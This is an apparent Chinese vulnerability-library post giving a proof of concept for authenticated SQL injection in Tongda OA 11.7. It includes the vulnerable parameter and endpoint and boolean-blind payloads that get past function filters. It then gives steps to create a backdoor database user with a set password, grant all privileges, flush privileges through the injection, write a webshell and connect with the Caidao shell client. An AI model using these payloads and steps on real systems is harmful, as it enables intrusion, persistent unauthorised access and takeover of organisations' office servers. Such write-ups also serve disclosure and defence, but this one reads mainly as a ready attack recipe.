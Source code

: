 ```yaml
---
title: '通达OA 11.7存在sql注入'
date: Sat, 19 Sep 2020 12:52:37 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞影响版本

通达oa 11.7 利用条件:需要账号登录

#### POC

1、下载通达OA 11.7，https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe 2、condition\_cascade参数存在布尔盲注 [![](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_b3cc9aaa9501974151a737b88b0b11b1.jpg)](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_b3cc9aaa9501974151a737b88b0b11b1.jpg) 3.经过测试，过滤了一些函数(sleep、报错的函数等等)，各种注释，使用payload：select if((1=1),1,power(9999,99))、select if((1=2),1,power(9999,99))，判断注入点 #当字符相等时，不报错，错误时报错 4、通过添加用户at666，密码为abcABC@123 [![](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_0af6153a318611e73c95cc2cdbdeaeaf.jpg)](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_0af6153a318611e73c95cc2cdbdeaeaf.jpg) 5、使用Navicat Premium连接数据库 6、添加的账户不能直接通过日志慢查询写入文件，需要给创建的账户添加权限 [提权](https://www.bylibrary.cn/wp-content/uploads/2020/09/提权.txt) 7、然后用注入点刷新权限，因为该用户是没有刷新权限的权限的```
general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges; 
```8、再次登录，提示密码过期，需要重新执行grant all privileges ON mysql.\* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION 9、然后写shell 方法一: [![](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_ff1151ea2b97ef2fe35f71be01c533c0.jpg)](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_ff1151ea2b97ef2fe35f71be01c533c0.jpg) 方法二: [![](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_0d99644666743c7e61d5ce5add0f0d8a.jpg)](https://www.bylibrary.cn/wp-content/uploads/2020/09/wp_editor_md_0d99644666743c7e61d5ce5add0f0d8a.jpg) 10、菜刀连接